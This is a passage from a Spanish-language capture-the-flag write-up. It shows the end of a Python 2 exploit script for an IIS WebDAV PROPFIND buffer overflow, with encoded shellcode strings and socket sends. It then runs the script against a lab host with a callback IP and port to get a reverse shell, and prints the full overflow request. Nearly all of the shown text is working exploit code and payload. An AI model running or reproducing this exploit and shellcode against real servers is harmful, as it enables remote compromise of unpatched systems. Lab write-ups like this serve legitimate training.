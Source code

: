 ```python
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
smallsc='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A'
pay+=smallsc
pay+='>\r\n\r\n'
print pay
sock.send(pay)
sock.send(shellcode)
data = sock.recv(80960)  
print data 
sock.close
```

Es un script desarrollado en `python` que nos automatiza la explotación de la versión especifica de dicho servicio haciendo el uso del desbordamiento de la memoria del buffer.

----------------------

# OBTENCION DE LA REVERSE SHELL

- Ejecutamos nuestro script y nos ponemos en escucha por el puerto que le hayamos indicado

```bash
python2.7 iis.py 10.10.10.14 80 10.10.16.13 443
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```
